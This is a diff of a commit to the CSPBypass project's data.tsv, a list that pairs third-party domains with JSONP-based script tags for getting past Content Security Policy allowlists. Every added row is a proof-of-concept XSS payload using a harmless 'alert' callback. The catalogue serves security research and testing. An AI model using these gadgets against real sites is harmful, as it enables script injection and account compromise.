

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 284: www.abtasty.com <script src="https://www.abtasty.com/wp-json?_jsonp=alert"></script>
+row 285: www.adpushup.com <script src="https://www.adpushup.com/wp-json?_jsonp=alert"></script>
+row 286: www.altmetric.com <script src="https://www.altmetric.com/wp-json?_jsonp=alert"></script>
+row 288: www.appointlet.com <script src="https://www.appointlet.com/wp-json?_jsonp=alert"></script>
+row 289: www.bazaarvoice.com <script src="https://www.bazaarvoice.com/wp-json?_jsonp=alert"></script>
+row 292: www.cookiebot.com <script src="https://www.cookiebot.com/wp-json?_jsonp=alert"></script>
+row 293: www.criteo.com <script src="https://www.criteo.com/wp-json?_jsonp=alert"></script>
+row 294: www.demandbase.com <script src="https://www.demandbase.com/wp-json?_jsonp=alert"></script>
+row 295: www.ecwid.com <script src="https://www.ecwid.com/wp-json?_jsonp=alert"></script>
```
Also changed, not shown: 13 added rows elsewhere in this file.
